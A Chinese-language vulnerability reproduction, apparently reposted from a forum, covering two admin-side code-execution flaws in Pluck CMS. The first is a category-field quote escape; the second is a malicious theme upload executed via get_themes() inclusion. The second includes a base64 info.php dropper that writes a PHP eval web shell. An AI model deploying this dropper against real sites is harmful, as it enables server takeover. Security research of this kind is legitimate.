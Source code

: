 # Pluck CMS后台另两处任意代码执行

> 原文：[https://www.zhihuifly.com/t/topic/3094](https://www.zhihuifly.com/t/topic/3094)

# Pluck CMS后台另两处任意代码执行

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

#### 第一处：过滤不严导致单引号逃逸

在function.php里面blog_save_post()函数

```
function blog_save_post($title, $category, $content, $current_seoname = null, $force_time = null) {
    //Check if 'posts' directory exists, if not; create it.
    if (!is_dir(BLOG_POSTS_DIR)) {
        mkdir(BLOG_POSTS_DIR);
        chmod(BLOG_POSTS_DIR, 0777);
    }

```
//Create seo-filename
$seoname = seo_url($title);

//Sanitize variables.
$title = sanitize($title, true);
$content = sanitizePageContent($content, false);

if (!empty($current_seoname)) {
    $current_filename = blog_get_post_filename($current_seoname);
    $parts = explode('.', $current_filename);
    $number = $parts[0];

    //Get the post time.
    include BLOG_POSTS_DIR.'/'.$current_filename;

    if ($seoname != $current_seoname) {
        unlink(BLOG_POSTS_DIR.'/'.$current_filename);

        if (is_dir(BLOG_POSTS_DIR.'/'.$current_seoname))
            rename(BLOG_POSTS_DIR.'/'.$current_seoname, BLOG_POSTS_DIR.'/'.$seoname);
    }
}

else {
    $files = read_dir_contents(BLOG_POSTS_DIR, 'files');

    //Find the number.
    if ($files) {
        $number = count($files);
        $number++;
    }
    else
        $number = 1;

    if (empty($force_time))
        $post_time = time();
    else
        $post_time = $force_time;
}

//Save information.
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time;

save_file(BLOG_POSTS_DIR.'/'.$number.'.'.$seoname.'.php', $data);

//Return seoname under which post has been saved (to allow for redirect).
return $seoname; 
``` `}` 
```

其中

```
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time; 
```

$title $content 均被过滤，$post_time不可控，$category可控

所以只要把$cont2变成我们的payload即可

![image](img/fe4801c94da7b443548123c5d1d72a9c.png)

![image](img/4ec092677a82e216b0cf022ed2fb3d95.png)

#### 第二处：安装模版+文件包含导致任意命令执行

很多CMS都会在安装模版的时候getshell，那么这里笔者也发现了类似的漏洞。

##### 1、直接访问失败

首先准备一个shell.php里面是我们的phpinfo();

然后打包成shell.zip，直接上传主题

![image](img/619fe43453e4d655b038909caf52789c.png)

![image](img/33761b09b9ec5228c08b82aa54c9d6e5.png)

发现确实上传并且解压成功

但是由于目录下有.htaccess文件，直接把php设置为不可解析，所以无法直接访问

![image](img/52050ca1f9ea0d6460b41e39efdca12f.png)

![image](img/1b706377d6055a0ad119afd558437d06.png)

##### 2、文件包含突破

所以就想到需要找一个位置对其进行包含，来达到执行的目的。

首先看到admin.php中关于theme的部分

![image](img/5210d47cb5a650a9dbf052125e6f2a35.png)

跟进 data/inc/theme.php，发现调用了get_themes()方法

![image](img/9f89adc92ab7f37b0372164968964bcc.png)

跟进 functions.all.php，查看get_themes()方法

```
function get_themes() {
    $dirs = read_dir_contents('data/themes', 'dirs');
    if ($dirs) {
        natcasesort($dirs);
        foreach ($dirs as $dir) {
            if (file_exists('data/themes/'.$dir.'/info.php')) {
                include_once ('data/themes/'.$dir.'/info.php');
                $themes[] = array(
                    'title'   => $themename,
                    'dir' => $dir
                );
            }
        }
        return $themes;
    }
    else
        return false;
} 
```

发现会遍历data/themes/下所有主题目录，并且包含他的info.php文件

此时info.php可控，就导致了任意代码执行。

##### 3、利用方法

首先准备一个info.php

```
<?php
file_put_contents('x.php',base64_decode('PD9waHAgQGV2YWwoJF9HRVRbJ21yNiddKTs/Pg=='));
?> 
```

然后打包压缩成shell.zip

上传安装主题，然后点击回到主题页，此时触发文件包含。

![image](img/30e9e23b020b6bd582aa49de97f4ed41.png)

![image](img/e3720abf1fe9e2db60effb630e08cfa6.png)

![image](img/fe9a1ace5f763ddbb324ccbae325638c.png)